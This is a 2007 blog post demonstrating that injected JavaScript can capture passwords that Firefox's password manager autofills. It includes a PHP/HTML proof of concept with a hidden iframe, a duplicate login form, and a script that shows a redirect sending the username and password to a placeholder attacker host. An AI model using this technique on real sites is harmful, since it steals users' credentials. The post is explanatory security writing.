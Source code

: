 ```yaml
---
title: Demonstrating Password Manager Almost Vulnerability in FireFox
date: 2007-07-28
tags:
- javascript
- security
---
```

The "security guys" have been talking about the problems with FireFox's password manager and I got curious.  It turns out that javascript can access saved passwords in your password manager simply by creating a login form and capturing the input field's contents.  While this isn't necessarily a vulnerability in FireFox, it does suck!  The biggest attack vector is websites that allow user submitted content that have script injection holes.  Basically, if a third party can create a form and insert some javascript on the page, they will be 'acting' to the browser as if they're a legitimate part of the site.  Lets check out a proof of concept:

<!--more-->

First off, we have legitimate site here with its login form:

**`index.php`**
```html
<h1>Log In:</h1>

<form action="login.php" name="login" method="post">
  Username: <input type="text" name="username"></input><br></br>
  Password: <input type="password" name="password"></input><br></br>
  <input type="submit"></input>
</form>
```

And then we process the login (which allows firefox to save the password) and redirect to a standard page.

**`login.php`**
```php
/**
 * yay logged in
 */
die(header("Location: loggedin.php"));
```

and my logged in page.

**`loggedin.php`**
```html
You're logged in now.

<a href="index.php">Log in again</a><br></br>
<a href="hack.php">Hack it</a>
```

As you can see, we can go back to the index.php page with the login form to verify that the password manager has saved our password.

Lets move on to the hack.php page which is the page that had a vulnerability that allowed the third party to insert some content.

**`hack.php`**
```html
Here is a normal page.  Don't feel scared.

<iframe src="iframe.php" style="visibility: hidden"></iframe>
```

In theory, you'd have to also have a file named iframe.php on the same server.  I just separated it to keep the code separate.  In a real life example, we'd be inserting the content of iframe.php inside of a div so it runs directly from that server.  But anyways...

**iframe.php (the evil code)**

```html
<html>
  <body onload="stealit()">
    <form action="login.php" name="login" method="post">
      Username: <input type="text" name="username"></input><br></br>
      Password: <input type="password" name="password"></input><br></br>
    </form>
    <script>
      function stealit()
      {
        var username=document.login.username.value;
        var password=document.login.password.value;
        
         alert(
           "I am gonna do this:  self.location.href='http://hackserver.php?username=" 
           + username + "&amp;password=" + password + "'"
         );
      }
    </script>
  </body>
</html>
```

As you see, this makes an identical login form so that Firefox fills it in (firefox is doing its job! Don't be tooo mad).  Then, my script could go and make a request at a remote server with the username and password using ajax or loading an image or anything really.  (Here I just alert it.)

While I'm excited to see what Firefox is going to do to help stop this type of issue, I'm not mad and don't really think its that much of a bug.  When you use password manager, you KNOW what its going to do.

